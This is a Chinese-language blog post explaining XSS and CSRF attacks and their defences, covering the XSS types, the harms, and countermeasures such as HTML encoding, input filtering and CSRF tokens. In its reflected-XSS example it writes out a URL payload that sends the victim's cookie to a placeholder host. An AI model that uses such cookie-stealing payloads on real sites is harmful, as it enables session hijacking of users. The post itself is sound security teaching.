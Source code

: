 ```yaml
---
title: 了解XSS/CSRF
categories: 安全
tags:
  - XSS
  - CSRF
  - 安全
date: 2017-06-06 13:21:15
updated: 2017-06-06 13:21:15
---
```


## XSS攻击和防御
### XSS定义
跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。
恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的特殊目的。

### XSS攻击方式
#### 反射型
发出请求时，XSS代码出现在URL中（典型的特征：攻击脚本写在URL中，是明文的），作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器（解析了XS代码，服务端把内容与HTML文本下发给浏览器，通常是js脚本），最后浏览器解析执行XSS代码这个过程像一次反射，故叫反射型XSS，也叫作"非持久型XSS“(Non-persistent XSS)
![反射XSS](./reflect_xss.png)

1. 做个假设，当亚马逊在搜索书籍，搜不到书的时候显示提交的名称。
2. 在搜索框搜索内容，填入“<script>alert('handsome boy')</script>”, 点击搜索。
3. 当前端页面没有对返回的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。
4. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie
='+document.cookie</script>

#### 存储型
把用户输入的数据”存储“在服务器端。这种XSS具有很强的稳定性。
比较常见的一个场景：黑客写下一篇包含恶意Javascript代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在他们的浏览器中执行这段恶意的Javascript代码。黑客把恶意的脚本保存在服务器端，所以中XSS攻击就叫做"存储型XSS"。
#### DOM based XSS
也是一种反射型XSS，由于历史原因被单独列出来了。通过修改页面的DOM节点形成的XSS，称之为DOM Based XSS

### XSS的危害
这些危害包括但不局限于：
盗取管理员或普通用户cookie、session；
读取、篡改、添加、删除敏感数据;
网站挂马；
非法转账；
控制受害者机器向其它网站发起攻击 等等

### XSS防御措施
- 编码：不能对用户所有输入保持原样对用户输入的数据写入HTML文档
  [HTML实体编码规则](http://www.w3school.com.cn/tags/html_ref_entities.html)
  避免直接对HTML Entity解码
  使用DOM Parse转换，校正不匹配对的DOM标签
- 过滤：把输入不合法的过滤掉，保持安全性
  移除用户上传的DOM属性，如onerror，onclick等
  移除用户上传的Style节点，script节点，iframe节点等
  在表单提交或者url参数传递前，对需要的参数进行过滤,XSS过滤工具类代码过滤用户输入的 检查用户输入的内容中是否有非法内容。如<>（尖括号）、”（引号）、 ‘（单引号）、%（百分比符号）、;（分号）、()（括号）、&（& 符号）、+（加号）等。、严格控制输出


## CSRF攻击和防御

参考链接：[CSRF 详解与攻防实战](https://segmentfault.com/a/1190000006963312)

CSRF是什么呢？CSRF全名是Cross-site request forgery，是一种对网站的恶意利用，CSRF比XSS更具危险性。想要深入理解CSRF的攻击特性我们有必要了解一下网站session的工作原理。

http请求是无状态的，也就是说每次http请求都是独立的无关之前的操作的，但是每次http请求都会将本域下的所有cookie作为http请求头的一部分发送给服务端，所以服务端就根据请求中的cookie存放的sessionid去session对象中找到该用户资料了。

CSRF攻击的主要目的是让用户在不知情的情况下攻击自己已登录的一个系统，类似于钓鱼。如用户当前已经登录了邮箱，或bbs，同时用户又在使用另外一个，已经被你控制的站点，我们姑且叫它钓鱼网站。这个网站上面可能因为某个图片吸引你，你去点击一下，此时可能就会触发一个js的点击事件，构造一个bbs发帖的请求，去往你的bbs发帖，由于当前你的浏览器状态已经是登陆状态，所以session登陆cookie信息都会跟正常的请求一样，纯天然的利用当前的登陆状态，让用户在不知情的情况下，帮你发帖或干其他事情。

### CSRF防御
通过 referer、token 或者 验证码 来检测用户提交。
尽量不要在页面的链接中暴露用户隐私信息。
对于用户修改删除等操作最好都使用post操作 。
避免全站通用的cookie，严格设置cookie的域。
